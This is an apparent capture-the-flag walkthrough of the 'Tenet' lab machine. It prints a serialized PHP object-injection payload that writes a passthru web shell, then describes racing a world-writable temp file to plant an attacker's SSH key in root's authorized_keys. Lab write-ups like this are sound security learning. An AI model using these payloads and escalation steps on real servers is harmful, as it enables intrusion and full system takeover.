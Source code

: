 ```yaml
---
layout: page
title:  "TENET"
permalink: /tenet/
---
```

[Or not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# TENET
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
A superuser can ssh into the box via private key. The related public key can be set up automatically using a script. The public key file that the script relies on is world writable, and the script itself can be run by user neil with the aid of sudo.<br>
<br>
Neil uses the same credential for logging into the box and configuring WordPress.<br>
<br>
Neil is a developer who single-handedly works on data migration. The migration tool he build, in its early progress, is vulnerable to PHP object injection, which allows a file of arbitrary content and name to be created on the web server. Upon publicly holding someone accountable for their mistake, Neil leaks the name of his tool and that a backup exists. Both the tool and its backup are for some reason hosted on the server, available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to Deserialization of Untrusted Data (CWE-502)!](/tenet/#502)<br>
[Skip to Time-of-check Time-of-use (TOCTOU) Race Condition (CWE-367)!](/tenet/#367)<br>
<br>
<br>
Surface check.<br>
`nmap -sV -sC tenet.htb -oA tcp_t1k -v; searchsploit --nmap tcp_t1k.xml -v`<br>
Per nmap, ssh is open on port 22 and http is open on port 80. The automation feature that searchsploit offers so far provides meh result: it somehow does not search version numbers despite them being literally the whole point here. Manual search: nothing interesting.<br>
tenet.htb: appears to be a WordPress blog. `wpscan` and `gobuster`: nothing interesting.<br>
<br>
<br>
<details close markdown="block">
<summary>
Screenshot of the blog.
</summary>
![](/assets/images/tenet/migration.png)
[We'll encounter this "a bit more substantial" something soon.]<br>
![](/assets/images/tenet/comment.png)
[Poor Neil.]<br>
![](/assets/images/tenet/beta.png)
[Can we just appreciate "this is where our worlds collide" being quite some way of saying "ye wanna test this thing that we build?" here?]<br>
</details>
Keywords collected: `rotas`, `sator`, `protagonist`, `neil`, etc.<br>
The comment by Neil reveals that he used to be able to access "the sator php file and the backup" by some means but not any more. These two files can be hosted on this very server, with name say, `sator.php` and `sator.php.bak`. [Worldlists, experiences, imaginations, I have none.]<br>
Both files can be accessed under `rotas.tenet.htb`.<br>
<br>
<br>
<a id="502"></a>
Content of `sator.php.bak`.<br>
```php
<?php
class DatabaseExport{
	public $user_file = 'users.txt';
	public $data = '';
	public function update_db(){
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';}
	public function __destruct(){
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';}}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
?>
```
User input via `arepo` parameter in url is fed into `unserialize()`.<br>
[Neil seems to use a string ('Success') as a placeholder for a text file ('Grabbing users from text file'); meanwhile a text file ('users.txt') as a placeholder for a database ('Database updated'); and something resemble API call (`arepo`, `unserialize`)? Indeed "a bit more substantial".]<br>
<br>
<br>
According to [Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html), the output of `serialize()`:<br>
"It has some kind of type specifier (like s or i), followed by a colon, followed by the actual data, followed by a semicolon."<br>
The basic types available are N for NULL, b for boolean, i for integer, f for floating-point, and s for string.<br>
Things can be bundled up and refered to as a whole, so the compound types available are a for array, and O for object.<br>
When things are bundled up, if the count number provided is half of the number of things in that bundle (determined by the number of semicolons), pairs of a key and a value are assumed.<br>
<br>
<br>
Based on above, whatever payload is fed into `unserialize()`, it *at most* can come out as:<br>
A piece of data e.g. 'Success', 'users.txt'.<br>
A bundle of pieces of data e.g. ['Success', 'users.txt'].<br>
A bundle of pairs of data tied together i.e. key-value pairs or variables e.g. ['user_file'=>'users.txt', 'data'=>'Success']<br>
<br>
<br>
No such thing as *interactions between* those data, ehh? No function definition. No function call.<br>
Locate existing function call and see what can be achieved by changing the value of its input variable? Seems to be the only strategy here?<br>
The only function call in `sator.php` is `$app -> update_db();`, and the unserialization output locates before even the creation of object `$app`. [Ugh.]<br>
<br>
<br>
So it turns out: those functions that you explicitly call for, are not the only functions that get run, in a high-level language like PHP. Afterall, memory prepping work is needed just so that those computations you want can be done. In assemblies, on the other hand, if the stack pointer is not changed, well, good luck.<br>
That is to say, explicit function call might not be needed, to get some code execution on the target. In `sator.php`, function `__destruct()` will be run upon an object get destroyed. ["You are not useful any more now move your ass!"] [I somehow feel painful saying that.] Every object will be destroyed in the end as computation is done and they are no longer needed. [More pain.] Thus to run those code defined as `__destruct()`, all we need to do is create a new object. [Ugh.] The creation of such object is indeed allowed, as the visibility of this `__destruct()` is `public`.<br>
A file with arbituary content and name can be written on the server and called later on. Web shell. [I've learnt to not aim for reverse shell first, as so many recon can be done with simple commands, chances are a more legit shell can be obtained using the info gathered.]<br>
<br>
<br>
Now recall the bullet points from [Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html). `user_file` is a string of 9 characters, `tenet.php` is a string of 9 characters, `data` is a string of 4 characters, `<?php passthru($_GET("arepo"));?>` is a string of 33 characters, `DatabaseExport` is a string of 14 characters, number count 2 to signify pairs, O for object:`0:14:"DatabaseExport":2:{s:9:"user_file";s:9:"tenet.php";s:4:"data";s:33:"<?php passthru($_GET["arepo"]);?>";}`. URL encode and put in parameter `arepo` and request `rotas.tenet.htb`.<br>
<br>
<br>
<a id="367"></a>
Then it's pretty smooth: cred hunt, cred reuse, hats time (it is `sudo -l` that worked).<br>
```bash
User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```
```bash
-rwxr-xr-x 1 root root 1080 Dec  8  2020 /usr/local/bin/enableSSH.sh
```
```bash
checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}

checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}

addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPPLs7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlUypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6NyqdzG5Nkn9LGZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNNw0p+Urjbl root@ubuntu"
addKey
checkAdded
```
Appears to configure ssh key for user root, root is indeed a superuser and `/etc/ssh/ssh_config` all clear. Worth inspecting.<br>
Between touch file and cat file into authorized_keys, the content of such file can be overwritten (`umask 110`, world writable) with a public key whose related private key we have. [In hindsight, this vulnerability is not a TOCTOU, as it lacks TOC. Function `checkFile` only check the existence of the file instead of its content integrity i.e. is the key still the same. Also, checking existence here seems unnecessary: file removal and recreation is not needed to swap its content since file is world writable; even if file removal is needed, no user except the owner which is root can carry out the removal; if root is already obtained, why race this file? Seems to be for bluffing.] Succeed with brute force, flooding the tmp directory with maybe thousands of key files. [Exhaustion from deriving PHP object injection.]<br>
<br>
<br>
That's it for the box.<br>
